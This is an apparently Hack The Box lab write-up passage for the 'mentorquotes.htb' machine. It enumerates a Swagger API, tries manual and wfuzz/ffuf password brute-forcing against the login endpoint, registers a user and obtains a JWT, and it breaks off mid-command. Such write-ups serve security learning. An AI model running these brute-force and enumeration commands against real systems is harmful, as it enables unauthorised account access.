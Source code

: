#### Exploration
Investigating `http://api.mentorquotes.htb/docs` shows it is a swagger documentation that describes the endpoints and their implemented methods. Studied `http://api.mentorquotes.htb/openapi.json` and discovered a contact name `james` url to the original website `http://mentorquotes.htb` and james' email address `james@mentorquotes.htb` . James supposedly could be the administrator of this site. I tried to gain access with james credentials using `curl` and guessing his password but had no result. Switched to brute forcing still without result.

```shell
# manually guess james login password
curl -X 'POST' \
  'http://api.mentorquotes.htb/auth/login' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "admin@123"
}'

## brute forcing the password
# with wfuzz
wfuzz -z file,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt -d '{ "email": "james@mentorquotes.htb", "username": "james", "password": "FUZZ"}' -u http://api.mentorquotes.htb/auth/login --hc 422

# with ffuf
ffuf -u http://api.mentorquotes.htb/auth/login -X POST -H 'Content-Type: application/json' -d '{ "email": "james@mentorquotes.htb", "username": "james", "password": "FUZZ"}' -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt -fc '403'

# signing up with a new user
curl -X 'POST' \
  'http://api.mentorquotes.htb/auth/signup' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "hunter@mentorquotes.htb",
  "username": "hunter",
  "password": "P2ssw0R)"
}'
#--snip--# 
{"id":4,"email":"hunter@mentorquotes.htb","username":"hunter"}

# login with the new user credentials
curl -X 'POST' \
  'http://api.mentorquotes.htb/auth/login' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "hunter@mentorquotes.htb",
  "username": "hunter",
  "password": "P2ssw0R)"
}'
#--snip--# returned a jwt token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imh1bnRlciIsImVtYWlsIjoiaHVudGVyQG1lbnRvcnF1b3Rlcy5odGIifQ.c1TRNVvjuCK6ZIVY8PUvkwXh_qd97axRtBd_W7W7tX0

# using mentorquotes' swagger I got error that I was missing the Authorization header. I switched to thunderclient and applying the endpoints required schema header and got a 403 error. see mentor01 copied the curl snippet too.
curl -X GET \
  'http://api.mentorquotes.htb/users/' \
  --header 'Accept: */*' \
```